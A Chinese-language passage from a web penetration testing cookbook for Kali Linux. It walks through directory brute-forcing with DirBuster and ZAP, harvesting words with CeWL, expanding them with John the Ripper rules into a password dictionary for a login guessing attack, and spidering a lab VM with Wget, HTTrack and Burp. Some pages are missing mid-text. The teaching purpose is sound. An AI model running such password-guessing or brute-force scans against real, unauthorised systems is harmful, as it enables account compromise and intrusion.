

43


[Technet24.ir](http://technet24.ir)

### 侦察

9. 如果我们进入 `Results` 标签页，将看到 DirBuster 至少发现了我们字典中的两个文件：`cgi-bin` 和 `phpmyadmin`。响应代码 `200` 意味着文件或目录存在且可以读取。`PhpMyAdmin` 是一个基于 Web 的 MySQL 数据库管理员；发现以此命名的目录告诉我们服务器上存在一个 DBMS，它可能包含有关应用程序及其用户的相关信息。



## 工作原理...

DirBuster 是爬虫和暴力破解器的结合体；它会跟踪它找到的页面中的所有链接，但也会尝试可能文件的不同名称。这些名称可能存在于类似于我们使用的文件中的，也可能由 DirBuster 使用“纯暴力破解”选项并设置字符集以及生成单词的最小和最大长度来自动生成。

为了确定文件是否存在，DirBuster 使用服务器的响应代码。常见的响应列出如下：

- `200. OK`：文件存在且用户可以读取。
- `404. File not found`：服务器上不存在该文件。

44


## 第 2 章

- `301. Moved permanently`：这是到给定 URL 的重定向。
- `401. Unauthorized`：访问此文件需要身份验证。
- `403. Forbidden`：请求有效但服务器拒绝响应。

## 使用 CeWL 进行密码画像分析

在每次渗透测试中，侦察必须包含一个画像分析阶段，在该阶段我们分析应用程序、部门或流程名称，以及目标组织使用的其他词。这将帮助我们确定当人员需要设置用户名或密码时，哪些组合更有可能被使用。

在本教程中，我们将使用 `CeWL` 获取应用程序使用的单词列表。

## 如何操作...

1. 作为第一步，我们将查看 `CeWL` 的帮助信息，以了解它能做什么。在终端输入：

```bash
cewl --help
```



2. 我们将使用 `CeWL` 获取 Picko 上的单词。我们需要最小长度为五个字符的单词；显示计数并将结果保存到 `cewl_WackPicko.txt`：`cewl -w cewl_WackPicko.txt -c -m 5 http://192.168.56.102/WackPicko/`
3. 现在，我们打开 CeWL 刚刚创建的文件，看到“单词计数”对。此列表仍然需要过滤，以丢弃计数高但不可能作为密码的单词；例如，“Services”、“Content”或“information”。

45


[Technet24.ir](http://technet24.ir)

### 侦察

4. 让我们删除一些单词以获得单词列表的第一版本。在删除了一些单词和计数后，我们的单词列表看起来如下：

```
WackPicko
Users
person
unauthorized
Login
Guestbook
Admin
access
password
Upload
agree
Member
posted
personal
responsible
account
illegal
applications
Membership
profile
```

## 工作原理...

`CeWL` 是 Kali Linux 中的一个工具，它可以爬取网站并提取单词列表；它还可以提供每个单词的重复次数、将结果保存到文件、使用页面元数据等。

### 另另

还有其他用于类似目的的工具；有些根据规则或其他单词列表生成单词列表，有些则爬取网站寻找最常用的单词：

- `Crunch`：这是一个基于用户提供的字符集的生成器。它使用该集合生成所有可能的组合。`Crunch` 包含在 Kali 中。
- `Wordlist Maker (WLM)`：`WLM` 具有根据字符集生成单词列表的功能，还可以从文本文件和网页提取单词。
- `Common User Password Profiler (CUPP)`：此工具可以使用单词列表对常用用户名的可能密码进行画像分析，并下载单词列表和默认值。


来自数据库的密码 ([`github.com/Mebus/cupp.`](https://github.com/Mebus/cupp))

46


## 第 2 章：使用 John the Ripper 生成字典

John the Ripper 可能是世界上大多数渗透测试人员和黑客喜欢的密码破解工具。它具有许多功能，例如自动识别最常见的加密和哈希算法、能够使用字典以及暴力攻击；因此，我们能够将规则应用于字典单词并对其进行修改，在破解时无需存储该列表的情况下获得更丰富的词列表。这项功能正是我们将在本教程中使用的，用于根据一个非常简单的单词列表生成一个大量的字典。

## 准备工作

我们将使用上一个教程生成的单词列表（*使用 CeWL 进行密码分析*）来生成一个可能密码的字典。

## 如何操作...

1. John 有选项仅显示它将用于破解某个密码文件的密码。让我们用我们的单词列表尝试一下：

```
john --stdout --wordlist=cewl_WackoPicko.txt
```



2. 正如之前提到的，John 的另一个功能允许我们以各种方式应用规则来修改列表中的每个单词，以便获得一个更完整的字典：

```
john --stdout --wordlist=cewl_WackoPicko.txt --rules
```

47


[Technet24.ir](http://technet24.ir)

*侦察*

正如你在结果所示，John 通过切换大小写、添加后缀和前缀以及用数字和符号替换字母（十六替换）修改了单词。

3. 现在我们需要执行相同的操作，但将列表发送到文本文件中，以便我们以后使用：

```
john --stdout --wordlist=cewl_WackoPicko.txt --rules > dict_WackoPicko.txt
```



4. 现在，我们拥有了一个包含 999 个单词的字典，稍将用于对应用程序登录页面尝试密码猜测攻击。

## 工作原理...

虽然 John the Ripper 的目标不是成为字典生成器，而是高效地使用单词列表来破解密码（它做得非常好），但它的功能允许我们用它来扩展现有列表，并创建一个更适应现代用户密码的字典。

在本教程中，我们使用了默认规则集来修改我们的单词。John 的规则定义在它的配置文件中，位于 Kali Linux 的 `/etc/john/john.conf`。

### 更多内容...

关于创建和修改 John the Ripper 规则的更多信息可以在此处找到：

[`www.openwall.com/john/doc/RULES.shtml`](http://www.openwall.com/john/doc/RULES.shtml)

## 使用 ZAP 查找文件和文件夹

OWASP ZAP (Zed Attack Proxy) 是一种多功能的 Web 安全测试工具。它具有代理、被动和主动漏洞扫描器、模糊器、爬虫、HTTP 请求发送器和其他有趣的功能。在本教程中，我们将使用最近添加的“强制浏览”（Forced Browse），这是 DirBuster 在 ZAP 内部实现。

## 准备工作

为了使此教程运行，我们需要将 ZAP 作为 Web 浏览器的代理：

1. 启动 OWASP ZAP，从应用程序菜单导航到：Applications | Kali Linux | Web Applications | Web Application Fuzzers | owasp-zap。

48


## 第 2 章

2. 在 Mantra 或 Iceweasel 中，进入主菜单并导航到 Preferences | Advanced | Network，在 Connection 中点击 Settings…

3. 选择手动代理配置，并将 `127.0.0.1` 设置为 HTTP 代理，将 `8080` 设置为端口。勾选对所有协议使用相同代理的选项，然后点击 OK。



4. 现在，我们需要告诉 ZAP 它从哪个文件获取目录名称。进入 ZAP 菜单并导航到 Tools | Options | Forced Browse，然后点击 Select File…

49


[Technet24.ir](http://technet24.ir)

*侦察*

5. Kali Linux 包含一些单词列表。我们将使用其中之一：选择文件 `/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt` 并点击 Open。



6. 一个警报将告诉我们文件已安装。点击 OK 并再次点击 OK 以退出 Options 对话。

## 如何操作...

1. 正确配置代理后，访问 `http://192.168.56.102/WackoPicko`。

2. 我们将看到 ZAP 对此操作做出反应，显示我们刚刚访问的主机的树形结构。

50


## 第 2 章



3. 现在，在 ZAP 的左上面板（Sites 标签页）中，右键点击 `http://192.168.56.102` 内部的 WackoPicko 文件夹，进入 Attack | Forced Browse：



51


[Technet24.ir](http://technet24.ir)

*侦察*

4. 在底部面板我们将看到 Forced Browse 标签页。在这里我们可以看到扫描进度及其结果：



## 工作原理...

当我们配置浏览器使用 ZAP 时，它并不是直接向服务器发送请求，而是发送到我们想要查看的 ZAP 监听的地址。

ZAP 的 Forced Browse 工作原理与 DirBuster 相同；它获取我们配置的字典向服务器发送请求，如果文件存在，服务器将响应；如果不存在，则将返回错误。

## 另

Kali Linux 中包含的另一个非常有用的代理是 BurpSuite。它也有一些有趣的功能；可以作为我们刚刚使用的 Forced Browse 替代品的是 Burp 的 Intruder。

52


## 第 3 章：爬虫与蜘蛛 3

在本章中我们将涵盖：

- 使用 Wget 下载页面用于分析
- 使用 HTTrack 下载页面用于分析
- 使用 ZAP 的 spider
- 使用 Burp Suite 爬取网站
- 使用 Burp 的 repeater 重复请求
- 使用 WebScan
- 从爬取结果识别相关文件和目录

## 引言

渗透测试可以使用不同的方法进行，例如黑盒、灰盒和白盒。黑盒测试是指测试团队除了服务器 URL 之外，对应用程序没有任何任何先验信息。白盒测试是指测试团队拥有关于目标的所有信息，其基础设施、软件版本、测试用户、开发信息等；灰盒测试介于黑盒和白盒之间。

对于黑盒和灰盒测试，侦察阶段都是必要的，以便测试团队发现通常由应用程序所有者在白盒方法提供的信息。我们将遵循黑盒方法，因为它涵盖了外部攻击者为了获取足够信息以破坏应用程序或服务器某些功能而采取的所有步骤。

**[53]**


[Technet24.ir](http://technet24.ir)

*爬虫与蜘蛛*

作为 Web 渗透测试侦察阶段的一部分，我们需要浏览网页中包含的每个链接，并记录它显示的每个文件。帮助我们自动化和加速此任务的工具被称为网络爬虫（crawler）或网络蜘蛛（spider）。这些工具通过跟踪所有链接和外部文件的引用来浏览网页，有时会填写表单并将其发送到服务器，保存所有的请求和响应，从而让我们有机会离线分析它们。


在本章中，我们将介绍 Kali Linux 中包含的一些爬虫工具的使用，并将查看常见网页中值得关注查找的文件和目录。

## 使用 Wget 下载页面进行离线分析

Wget 是 GNU 项目的一部分，被包含在大多数主流 Linux 发行版中，包括 Kali Linux。它具有递归下载网页以进行离线浏览的能力，包括链接转换和非 HTML 文件的下载。

在本食谱中，我们将使用 `Wget` 下载与我们 `vulnerable_vm` 中的某个应用程序相关的页面。

## 准备工作

本章中的所有食谱都需要运行 `vulnerable_vm`。在本书书的特定场景下，它的 IP 地址为 `192.168.56.102`。

### 操作步骤……

1. 让我们通过调用带有 URL 作为唯一参数的 `Wget` 来进行首次尝试下载该页面：

```
wget http://192.168.56.102/bodgeit/
```



如我们所见，它仅将 `index.html` 文件下载到了当前目录，这是该应用程序的起始页。

[54]


2. 我们必须使用一些选项来告诉 `Wget` 将所有下载的文件保存到特定目录，并复制我们设置为参数的 URL 中包含的所有文件。让我们先创建一个目录来保存文件：

```
mkdir bodgeit_offline
```

3. 现在，我们将递归下载应用程序中的所有文件并将它们保存到对应的目录中：

```
wget -r -P bodgeit_offline/ http://192.168.56.102/bodgeit/
```


### 工作原理……

如所述，`Wget` 是一个为下载 HTTP 内容而创建的工具。通过 `-r` 参数，我们使其递归运行，即跟踪下载的每个页面中的所有链接并同样下载它们。`-P` 选项允许我们设置目录前缀，即 `Wget` 开始保存下载内容的目录；默认设置为当前路径。

[55]


[Technet24.ir](http://technet24.ir)

*爬虫与蜘蛛虫*

还有更多……

在使用 `Wget` 时，还有其他需要考虑的有用选项：

- `-l`: 在递归下载时，可能需要建立 `Wget` 跟踪链接的深度限制。此选项后跟随我们想要访问的深度层数，让我们能够建立这种限制。
- `-k`: 文件下载后，`Wget` 会修改所有链接，使其指向相应的本地文件，从而使本地浏览网站成为可能。
- `-p`: 此选项允许 `Wget` 下载页面所需的所有图像，即使它们在其他网站上。
- `-w`: 此选项让 `Wget` 在每次下载之间等待指定的秒数。当服务器上存在防止自动浏览的机制时，此选项非常有用。

## 使用 HTTrack 下载页面进行离线分析

正如 HTTrack 官方网站 ([`www.httrack.com`](http://www.httrack.com)) 上所述：

“它允许你从互联网下载整个万网网站到本地目录，递归构建所有目录，从服务器获取 HTML、图像和其他文件到你的计算机。”

我们将在本食谱中使用 `HTTrack` 下载应用程序网站的所有内容。

## 准备工作

Kali Linux 默认没有安装 HTTrack，因此我们需要安装它，如下所示：

```
apt-get update
apt-get install httrack
```

### 操作步骤……

1. 第一步是创建一个存储下载网站的目录，然后进入该目录：

```
mkdir bodgeit_httrack
cd bodgeit_httrack
```

[56]


2. 使用 `HTTrack` 的简单方法是将我们要下载的 URL 添加到命令中：

```
httrack http://192.168.56.102/bodgeit/
```

设置最后的 "/" 是重要的；如果遗漏，`HTTrack` 将返回 404 错误，因为服务器根目录下没有 "bodgeit" 文件。


3. 现在，如果我们访问 `file:///root/MyCookbook/test/bodgeit_httrack/index.html`（或你在测试环境中选择的路径），我们将看到可以离线浏览整个网站：



[57]


[Technet24.ir](http://technet24.ir)

*爬虫与蜘蛛虫*

### 工作原理……

`HTTrack` 创建网站的完整静态副本，这意味着所有的动态内容（如对用户输入的响应）将不可用。在我们下载网站的文件夹内部，我们可以看到以下文件和目录：

- 以服务器名称或地址命名的目录，包含所有下载的文件。
- `cookies.txt`: 包含下载网站时使用的 cookies 信息的文件。
- `hts-cache`: 该目录包含爬虫检测到的文件列表；这是 `httrack` 处理的文件列表。
- `hts-log.txt`: 该文件包含在爬取和下载网站期间报告的错误、警告和其他信息。
- `index.html`: 一个重定向到位于服务器名称目录中的原始 index 文件副本的文件。

还有更多……

`HTTrack` 还有大量的选项集合，允许我们自定义其行为以更好地适应我们的需求。以下是一些值得考虑的有用修饰符：

- `-rN`: 设置跟踪链接的深度为 `N` 层
- `-%eN`: 设置外部链接的深度限制
- `+[pattern]`: 告诉 `HTTrack` 白名单所有匹配 `[pattern]` 的 URL，例如 `+*google.com/*`
- `-[pattern]`: 告诉 `HTTrack` 黑名单（不下载）所有匹配模式的链接
- `-F [user-agent]`: 此选项允许我们定义想要使用的用户代理标识（user-agent）


在上半部分，我们可以看到响应头，包括服务器横幅和会话 cookie；在下半部分是完整的 HTML 响应。在未来的章节中，我们将看到如何通过从身份验证用户处获取此类 cookie 来劫持用户的会话并执行冒充其身份的操作。

## 工作原理...

与任何其他爬虫一样，ZAP 的蜘蛛（spider）会跟踪在请求范围内包含的每个页面及其内部发现的每一个链接。此外，该爬虫还会跟踪 `robots.txt` 和 `sitemap.xml` 文件包含的表单响应、重定向和 URL。然后它会存储所有的请求和响应，以便后续分析和使用。

### 更多功能...

爬取网站或目录后，我们可能想要使用存储的请求执行某些测试。利用 ZAP 的功能，我们将能够完成如下：

- 重复修改某些数据的请求
- 执行主动和被动漏洞扫描
- 对输入变量进行模糊测试（Fuzz）以寻找可能的攻击向量
- 在网络浏览器中重放特定请求

**[61]**


[Technet24.ir](http://technet24.ir)

*爬虫与蜘蛛*

### 使用 Burp Suite 爬取网站

Burp 是最广泛使用的应用程序安全测试工具，因为它具有与 ZAP 类似的功能，同时带有一些独特的特性和易于使用的界面。Burp 的功能远不止于爬取网站，但目前作为侦察阶段的一部分，我们将介绍这一功能。

## 准备工作

通过 Kali 的应用程序菜单启动 Burp Suite，然后导航到 `03 Web Application Analysis | Web Application Proxies | burpsuite`，如下截图所示：



然后，配置浏览器通过 `8080` 端口使用该代理，正如我们之前对 ZAP 所做的那样。

**[62]**


### 第 3 章

## 如何操作...

1. Burp 的代理默认拦截所有请求。我们需要禁用它以便进行无中断的浏览。进入 `Proxy` 标签页并点击 `Intercept is on` 按钮；它将变为 `Intercept is off`，所示：



2. 现在，在网络浏览器中，访问 `http://192.168.56.102/bodgeit/`。

3. 在 Burp 窗口中，当我们进入 `Target` 标签页时，我们将看到我们正在浏览的站点信息以及浏览器发出的请求：



**[63]**


[Technet24.ir](http://technet24.ir)

*爬虫与蜘蛛*

4. 现在，为了激活蜘蛛，我们右键点击 `bodgeit` 文件夹并从菜单中选择 `Spider this branch`。



5. Burp 会询问是否要将该项添加到范围（scope），我们点击 `Yes`。默认情况下，Burp 的蜘蛛只爬取与 `Target` 标签页内 `Scope` 中定义的模式匹配的项。

6. 之后，蜘蛛将开始。当它检测到登录表单时，会向我们要登录凭据。我们可以忽略它，蜘蛛将继续；或者我们可以提交一些测试值，蜘蛛会将这些值填入表单。让我们在 `user name` 和 `password` 字段中填写 `test`，然后点击 `Submit form`：



**[64]**


### 第 3 章

7. 接下来，将被要求填写注册页面的用户名和密码。我们通过点击 `Ignore form` 来忽略此表单。

8. 可以在 `Spider` 标签页中检查蜘蛛状态。也可以通过点击 `Spider is running` 按钮来停止它。让我们现在停止它，所示：

